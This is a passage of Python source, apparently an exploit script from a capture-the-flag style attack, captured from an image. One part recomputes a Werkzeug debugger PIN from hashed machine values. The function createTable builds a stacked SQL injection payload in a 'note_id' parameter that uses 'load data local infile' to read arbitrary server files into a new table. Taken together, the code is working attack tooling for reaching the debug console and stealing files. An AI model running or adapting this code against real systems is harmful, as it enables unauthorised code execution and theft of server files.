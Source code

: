 ```Python
            continue

        if isinstance(bit, str):

            bit = bit.encode('utf-8')

        h.update(bit)

    h.update(b'cookiesalt')



    cookie_name = '__wzd' + h.hexdigest()[:20]



    num = None

    if num is None:

        h.update(b'pinsalt')

        num = ('%09d' % int(h.hexdigest(), 16))[:9]



    rv = None

    if rv is None:

        for group_size in 5, 4, 3:

            if len(num) % group_size == 0:

                rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')

                              for x in range(0, len(num), group_size))

                break

        else:

            rv = num



    print(rv)

    return rv





def createTable(file):

    tablename = ''.join(random.sample(string.ascii_letters + string.digits, 8))

    paramsGet = {

        "note_id": f"-1';create table {tablename}(cmd text);load data local infile '{file}' into table {tablename} fields terminated by '\\n';\x23"}

```